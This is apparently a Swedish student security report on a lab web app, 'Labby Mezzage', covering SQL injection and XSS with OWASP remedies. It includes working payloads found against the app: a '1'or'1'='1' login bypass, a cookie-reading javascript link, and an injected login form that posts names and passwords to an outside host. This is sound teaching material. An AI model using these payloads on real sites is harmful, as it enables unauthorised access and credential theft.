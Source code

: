 #Säkerhets- och prestandaanalys av applikationen Labby Mezzage    
Andreas Bom, ab22cw    
   
   
###Inledning   
Jag kommer i denna rapport presentera säkerhets- och prestandabrister som webbapplikationen Labby Mezzage har, samt ge förslag på hur detta kan förbättras.   
Hädanefter kommer jag att referera den person eller de personer som utför ett hot mot säkerheten för 'hackare, 'hackaren' eller 'hackarna'.   


###SQL injections   
#####Beskrivning   
Injections är en säkerhetsbrist som ingår i kategorin 'Attack'. SQL injections är en av flera olika typer av injections som kan utföras[1]. Förfarandet går till genom att hackaren injecerar, eller infogar, en SQL-fråga i ett indatafält i klienten, som sedan exekveras på servern mot databasen. Vid en lyckad attack kan hackaren komma åt data från databasen, göra förändringar i databasen eller utföra operationer som är avsedd enbart för databasadministratören[2].   
#####Orsak    
SQL injections kan utföras om data tillåts komma från en opålitlig källa, eller om indata dynamiskt utgör SQL-frågan på servern[2].   

#####Förebyggande åtgärder   
Det finns flera åtgärder för att undvika SQL-injections[2]. 
1) Parameteriserade SQL-frågor   
2) Användning av lagrade procedurer   
3) Sanera input från användaren, så att inga 'farliga' tecken släpps fram till SQL-frågan.   
   
Rekommendationen är att i första hand använda parameteriserade SQL-frågor, därefter lagrade procedurer. Att använda sig av åtgärden sanera input från användaren medför större risker än de föregående två alternativen och ska användas med stor försiktighet[2].   
Utöver de ovan nämda åtgärderna rekommenderas att privilegier till användare har så låga rättigheter som är möjligt. D.v.s låt inte användare som enbart ska läsa eller skriva till databasen, ha rättigheter att kunna förändra databasstrukturen(radera databas, skapa nya användare etc.). Rekommendationen är också att använda sig av validering av indata så att felaktig eller skadlig indata aldrig når SQL-frågan[2].

####Labby Mezzage 
Applikationen har en inloggningssida där användaren måste ange emailadress och tillhörande lösenord för att kunna logga in och ta del av meddelanden.   
   
#####Problem   
Det är möjligt att logga in på applikationen utan att känna till email eller lösenord. Inloggning kan ske genom att skriva in en giltig emailadress (viken som helst) och istället för lösenord skrivs 1'or'1'='1 . Det som sker är att en SQL injeceras i lösenordsfältet och oavsett emailadress eller lösenord behöver vara korrekta, eftersom det sista som SQL-frågan säger är att 1=1. Detta kommer alltid vara sant, och innebär att hackaren loggas in.    
   
#####Förslag på lösning   
OWASPs rekommendation för att minimera risker med SQL injections är att implementera antigen parameteriserade SQL-frågor eller parameteriserade lagrade procedurer. Utöver detta bör previligerierna för databasen ses över, för att säkerställa att användarna har minsta möjliga rättigheter, utifrån vad de förväntas kunna göra[3].    
   
   
   
   

###XSS (Cross site scripting)    
#####Beskrivning   
XSS är en attack där hackaren injecerar skadligt script i en annars ofarlig och pålitlig webbsida. När andra användares webbläsare läser in scriptet, execveras det utan att veta att det är script som inte är pålitligt. Scriptet kan få access till användarens kakor, sessions tokens eller annan känslig data som lagras i användarens klient, och som sedan kan skickas och användas av hackaren. Syftet kan också vara att förstöra en webbsida genom att scriptet förändrar HTML-koden.[4].  
   
#####Orsak   
XSS möjliggörs genom att data tar sig in i en application genom en opålitlig källa eller att data skickas till en användare utan att ha blivit validerad från skadligt innehåll[4].   
   
#####Förebyggande åtgärder    
OWASP har en rad olika åtgärder som bör implementeras för att minimera risken med XSS[4].   
1)Tillåt opålitlig data endast på tillåtna platser.    
Exempel på platser där opålitlig data kan göra skada är mellan en scripttagg eller styletagg, i en HTML-kommentar, i ett attributnamn eller taggnamn.    
2) Sanera opålitlig data innan det används i
   *HTML element   
   *HTML attribut   
   *Data för Javascript    
   *Json data
   *Styles properties    
   *URL parameter    
Tillåt inte tecken så som <>&'"/ som output till dokumentet, utan använd istället dess HTML-motsvarighet (\&amp;, \&lt;, \&gt; etc. ).   
3)Om HTML ska tillåtas skickas in till applikationen, använd ett bibliotek som är avsedd till att sanera otillåten data.    
   

####Labby Mezzage   
Applikationen tillåter att 'farliga' tecken skrivs ut i listan med meddelanden. Det innebär att XSS är möjlig. Genom att skicka ett meddelande som t.ex. \<style>div{ background-color:black;}\</style> förändras sidans utseende och samtliga div-taggar (om de inte ändras  efter meddelandet) kommer att få en svart bakgrund. Att hämta ut värdet på sessionskakan är också fullt möjligt med följande script: <a href="javascript: alert(document.cookie)">Link to something funny</a>. Det går t.o.m att rendera upp ett formulär med fält och submit-knapp. <form method="post" action="http://web.andreasbom.se">
Name:   <input type="text" name="name">
Password: <input type="text" name="Password">
<input type="submit" value="Logga in">
</form>   


   
   
      
   
   

###Referenser   
[1] "Category:Injection," OWASP, 4 November 2007 [Online] Tillgänglig: https://www.owasp.org/index.php/Category:Injection. [Hämtad: 30 November, 2015].   
   
[2] "SQL Injection," OWASP, 14 Augusti 2014 [Online] Tillgänglig: https://www.owasp.org/index.php/SQL_Injection. [Hämtad: 30 November, 2015].   
   
[3] "Guide to SQL Injection" OWASP, 9 Juli 2015 [Online] Tillgänglig: https://www.owasp.org/index.php/Guide_to_SQL_Injection . [Hämtad: 30 November, 2015]. 
   
[4] "Cross-site Scripting (XSS)" OWASP,22 April 2014 [Online] Tillgänglig: https://www.owasp.org/index.php/XSS. [Hämtad: 30 November, 2015].    
   
[4] "Cross-site Scripting (XSS)" OWASP,22 April 2014 [Online] Tillgänglig: https://www.owasp.org/index.php/XSS. [Hämtad: 30 November, 2015].


